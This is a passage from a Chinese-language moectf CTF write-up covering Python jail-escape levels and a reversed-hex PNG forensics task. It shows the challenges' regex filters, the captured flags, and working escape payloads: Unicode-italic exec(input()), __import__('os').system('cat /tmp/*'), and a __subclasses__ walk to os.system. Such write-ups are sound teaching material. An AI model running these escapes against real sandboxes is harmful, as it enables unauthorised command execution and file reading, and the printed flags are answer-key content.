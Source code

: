 > [!FLAG]
>
> moectf{YOu_CaN-Byp@s5-tH3-5TrING_FIlTEr_6y-NUm_TO-cHR2e}

### lv2.5

> if re.search(r'["\'0-8bdhosxy_]|[^\x00-\xff]', code): print("Nope")
> 
> if len(code) > 15: print("Too long")

这么短，还过滤那么多，偏偏上面那种快捷解法还能过：

> [!FLAG]
>
> moectf{sOm3tlM35_lNPut-C4N_BE_@_m3Th0D_tO_BypaSs_f11t3rs0}

### lv3

> if re.search(r"[A-z0-9]", code): print("Nope")

```python title="lv3.py"
commands.append("𝘦𝘹𝘦𝘤(𝘪𝘯𝘱𝘶𝘵())")
commands.append("__import__('os').system('cat /tmp/*')")
```

> [!FLAG]
>
> moectf{p3p_AILOW_You_U5E-uNIcOd3-cHar_@S_AsC1I_On3sd}

### lv4

```python title="lv4"
commands.append(
    "[i for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == '_wrap_close'][0].__init__.__globals__['system']('cat /tmp/*')"
)
```

> [!FLAG]
>
> moectf{Y0U_C4N_REcoVEr-glO64ls_AnD_bUilTInS-from-CuSTom-functions0}

## The upside and down

> 只能说自己对文件的 16 进制格式不够熟悉，打开后习惯性就去看对应的 string 部分。

文件的 the_upside_and_down.hex 是一个二进制文件，但是其结尾以 16 进制数字反过来看就是一个 png 图片的魔数头了


[^1]: 你都写 misc 了，会点 pwn 怎么了（）